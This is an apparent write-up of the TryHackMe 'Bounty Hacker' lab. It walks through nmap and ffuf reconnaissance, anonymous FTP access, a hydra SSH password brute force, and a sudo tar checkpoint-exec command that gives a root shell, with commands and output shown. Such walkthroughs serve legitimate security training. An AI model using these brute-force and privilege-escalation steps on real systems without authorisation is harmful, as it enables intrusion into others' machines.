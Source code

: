 # Bounty Hacker
Try Hack Me room
ip=10.10.152.23

# Reconnaissance 
### Nmap 
```bash
nmap -T5 -sV -A  $host_ip 
Starting Nmap 7.92 ( https://nmap.org ) at 2023-01-01 04:56 EST
Nmap scan report for 10.10.152.23
Host is up (0.17s latency).
Not shown: 967 filtered tcp ports (no-response), 30 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.54.133
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
|   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
|_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)

```
Saved ip to /etc/host so i dont need to remenber ip 

Saved as => Bounty_hacker.thm

Going to that port we found a web hosted 

### Port 80

Looked into robots.txt nothing found so moved to fuzz it using ffuf
```bash
ffuf -w /usr/share/wordlists/dirb/common.txt -u http://bounty_hacker.thm/FUZZ  -r 
```
Didn't find anything intersting. Since the box was easy i went to try the other ports 

### FTP 
Saw that Anonymous login was enabled on port 21. Intersting maybe there is something there. Found 2 files on the FTP server.
Lets GET them and see what happens.


## Lock.txt
This text file has what looks like some kind of credential, but to what? Lets try them on SSH since thats another open port.  
Note: We also found another text file on the ftp with a note     
1.) Protect Vicious.    
2.) Plan for Red Eye pickup on the moon.    
	-lin


## Gaining Access 
Lets try to bruteforce with the credentials we have and the user lin since its mentioned. 
```bash
hydra -l lin -P locks.txt 10.10.152.23  ssh 

```
Hoorray We are in !
```bash
	lin@bountyhacker:~/Desktop$ ls
	user.txt
	lin@bountyhacker:~/Desktop$ cat user.txt 

```

## Privilege Escalation
```bash
lin@bountyhacker:~/Desktop$ sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:                                                                                 
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin              
                                                                                                                                   
User lin may run the following commands on bountyhacker:                                                                           
    (root) /bin/tar 

```
We can see that lin can run tar binary with special privilege lets check if [gtfobins](https://gtfobins.github.io/) on how to privilege our way.

We can search the tar binary 

[https://gtfobins.github.io/](https://gtfobins.github.io/)
We can see that we can use sudo to gain better pprivilege  using 
```bash 
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```
And we are in 
```bash
lin@bountyhacker:~/Desktop$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh                       
tar: Removing leading `/' from member names                                                                                        
# whoami                                                                                                                           
root         
```
DONE !!!
